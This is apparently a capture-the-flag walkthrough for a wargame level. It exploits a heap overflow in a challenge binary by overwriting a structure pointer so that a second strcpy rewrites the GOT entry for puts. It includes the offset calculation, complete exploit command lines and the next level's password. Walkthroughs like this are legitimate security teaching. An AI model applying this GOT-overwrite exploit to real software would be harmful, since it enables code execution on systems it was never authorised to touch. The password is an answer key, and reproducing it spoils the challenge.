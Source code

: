 # Level 07 Walkthrough

## Binary analysis

The binary allocates two structures and two string buffers on the heap. It uses `strcpy` to copy user input into the first buffer, then again into the second buffer, using pointers stored in the structures. The goal is to overflow the first buffer to overwrite the pointer in the second structure, so that the second `strcpy` writes to a controlled location (e.g., the GOT entry for `puts`).

Relevant code:
```
- malloc for struct_1 (0x0804a018)
- malloc for buffer_1 (0x0804a028)
- malloc for struct_2 (0x0804a038)
- malloc for buffer_2 (0x0804a048)

Overflow buffer_1 to overwrite struct_2[1] (pointer at 0x0804a03c).
```

## Exploitation

We overflow buffer_1 (starting at 0x0804a028) with 20 bytes to reach the pointer at 0x0804a03c. We overwrite this pointer with the address of the GOT entry for `puts` (0x08049928). Then, for the second argument, we provide the address of a function to execute (e.g., the address of a shell function or system call).

To determine the required padding, we need to understand the layout of the structures and buffers on the heap. Here, `buffer_1` starts at address `0x0804a028` and the pointer we want to overwrite in `struct_2` is located at `0x0804a03c`. The difference between these two addresses gives the number of bytes to fill in order to reach the target field:

0x0804a03c - 0x0804a028 = 0x14 = 20 bytes

So, we need 20 bytes of padding (for example, `"A"*20`) to fill `buffer_1` up to the pointer in `struct_2`.

Example payload:

```bash
./level7 "$(python3 -c 'print("A"*20 + "\x28\x99\x04\x08")')" "$(python3 -c 'print("\xf4\x84\x04\x08")')"
```

- 20 bytes of padding ("A"*20)
- Overwrite pointer with 0x08049928 (GOT entry for puts)
- Second argument: address to write (e.g., 0x080484f4)

## Commands used

```
./level7 "$(printf 'AAAAAAAAAAAAAAAAAAAA\x28\x99\x04\x08')" "$(printf '\xf4\x84\x04\x08')"
```

## Result

After running the exploit, we get the password for level8:

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```